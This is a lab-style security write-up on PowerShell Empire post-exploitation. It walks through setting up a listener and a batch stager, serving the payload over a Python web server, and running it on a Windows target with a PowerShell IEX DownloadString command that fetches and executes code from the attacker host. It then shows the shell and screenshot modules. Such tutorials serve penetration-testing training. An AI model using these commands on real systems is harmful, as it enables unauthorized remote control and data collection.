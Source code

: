 # Welcome to Cyber Secure Labs

<a href="./">Home</a>

## Working with the newest version of Powershell Empire

Public Site for sharing security writes

Write-up by: Cybersec


## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

**Windows Platform: `Exploitation and post exploits are performed using Powershell.`**

**Linux & macOS: `Exploitation requires Python 2.6 or 2.7`**

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](./Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](./Untitled%201.png)

Use the following command to list all listeners, if any is still running:

Command:

`listners`

![Untitled](./Untitled%202.png)

You can use the following command to kill a active listener:

![Untitled](./Untitled%203.png)

**Command:**

syntax: kill <name of listener>

kill test

kill http

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name http

set Host 192.168.119.208

set Port 4443

execute
```

![Untitled](./Untitled%204.png)

![Untitled](./Untitled%205.png)

Before we setup a stager, we will check to ensure no agents are currently running with the below 

**Command:**

`agents`

![Untitled](./Untitled%206.png)

If an agent was running and you would like to kill it, simply use the command below:

**syntax:** 

`kill <name of the agent>`

### Setting up a stager:

We will set our stager to: `windows/launcher_bat` and set our listener to be `http` just as we have named it when setting up the listener and execute it to start the listener.

```bash
usestager windows/launcher_bat

set Listener http

execute

```

After setting up the stager with the above commands, the follow payload will be exported to your a location on your machine.  In the context of this exercise, we will copy the exported payload and save to a directory and serve it to our target machine via a python web server.

![Untitled](./Untitled%207.png)

We will start a Python web server and transfer the file onto the windows target.

Command: 

`python3 -m http.server 3030`

![Untitled](./Untitled%208.png)

On the windows target machine,we will download the file and execute it without saving it to the target machine local hard-disk with the below power-shell command:

![Untitled](./Untitled%209.png)

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.208:3030/launcher.bat')
```

After executing the command above and hit enter twice at the command prompt, our script executes and a session is passed back to our powershell empire listening console.

![Untitled](./Untitled%2010.png)

### Setting up a stager:

From the above, we can see that a new agent A26S4CZV checked in

We can use the below command to list all agents

![Untitled](./Untitled%2011.png)

```
agents

```

Interacting with an agent is simple as using the below syntax

interact <agent name>

Example: 

```
interact A26S4CZV

```

![Untitled](./Untitled%2012.png)

### Post Exploitation Commands:

```
info

```

![Untitled](./Untitled%2013.png)

Using the command shell:

Command:

`shell`

![Untitled](./Untitled%2014.png)

### Taking a Screenshot of Target Machine's desktop

```
usemodule powershell/collection/screenshot
execute
```

![Untitled](./Untitled%2015.png)

![Untitled](./Untitled%2016.png)
